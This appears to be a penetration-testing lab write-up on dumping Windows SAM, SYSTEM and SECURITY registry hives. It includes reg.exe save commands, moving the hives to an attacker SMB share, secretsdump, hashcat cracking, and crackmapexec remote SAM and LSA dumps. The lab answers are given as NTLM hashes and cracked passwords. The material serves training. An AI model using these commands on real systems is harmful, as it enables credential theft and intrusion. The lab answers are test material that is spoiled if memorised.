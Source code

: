 ### Copying SAM Registry Hives

| Registry Hive   | Description                                                                                                                                                |
| --------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `hklm\sam`      | Contains the hashes associated with local account passwords. We will need the hashes so we can crack them and get the user account passwords in cleartext. |
| `hklm\system`   | Contains the system bootkey, which is used to encrypt the SAM database. We will need the bootkey to decrypt the SAM database.                              |
| `hklm\security` | Contains cached credentials for domain accounts. We may benefit from having this on a domain-joined Windows target.                                        |

#### Copy Registry Hives via reg.exe

```powershell
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

The operation completed successfully.

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

>[! Note ] 
> Use Impacket's smbserver.py to move the hive copies to a share created on the attack host


Syntax for smbserver.py
```python
sudo python3 smbserver.py -smb2support Name_of_Share /path/to/store/on/attack/host
```

When share is running on attack host, use the `move` command on Windows to move the hive copies to the share
```cmd-session
C:\> move sam.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
1 file(s) moved.
```

### Dumping Hashes with Impackets secretsdump.py

Ensure to specify each hive file you've retrieved
```python
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

>[! Warning] secretsdump cannot dump those hashes without the boot key because that boot key is used to encrypt & decrypt the SAM database

### Cracking Hashes via Hashcat

The `-m` flag cracks NT hashes (NTLM based hashes). Verify at [hashcat's wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)
```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

### Remote Dumping and LSA Secrets Considerations

You can also extract LSA Secrets over the network i.e., from a running service, scheduled task or application that uses LSA secrets to store passwords

**Dumping LSA Secrets Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

**Dumping SAM Remotely**
```go
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

## Questions

IP
```go
10.129.3.177
```

User
```
Bob
```

Password
```
HTB_@cademy_stdnt!
```

SSH
```go
ssh Bob@STMIP
```


Question 1: Apply the concepts taught in this section to obtain the password to the ITbackdoor user account on the target. Submit the clear-text password as the answer.

```go
xfreerdp /v:10.129.3.177 /u:Bob /p:HTB_@cademy_stdnt! /cert:ignore
```

First, dump the SAM database
```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

Found 8 hashes!

| Username/Account   | Hash                                                                      |
| ------------------ | ------------------------------------------------------------------------- |
| Administrator      | 500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| Guest              | 501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| DefaultAccount     | 503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  |
| WDAGUtilityAccount | 04:aad3b435b51404eeaad3b435b51404ee:72639bbb94990305b5a015220f8de34e:::   |
| bob                | 1001:aad3b435b51404eeaad3b435b51404ee:3c0e5d303ec84884ad5c3b7876a06ea6::: |
| jason              | 1002:aad3b435b51404eeaad3b435b51404ee:a3ecf31e65208382e23b3420a34208fc::: |
| ITbackdoor         | 1003:aad3b435b51404eeaad3b435b51404ee:c02478537b9727d391bc80011c2e2321::: |
| frontdesk          | 1004:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71::: |

Put the hashes in a text file and crack them with Hashcat

```go
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

Cracked passwords as listed:
```go
a3ecf31e65208382e23b3420a34208fc:mommy1                   
c02478537b9727d391bc80011c2e2321:matrix                   
31d6cfe0d16ae931b73c59d7e0c089c0:                         
58a478135a93ac3bf058a5ea0e8fdb71:Password123 
```

Question 3: Dump the LSA secrets on the target and discover the credentials stored. Submit the username and password as the answer. (Format: username:password, Case-Sensitive)

```go
crackmapexec smb 10.129.3.177 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

![[attacking_sam_q3.png]]
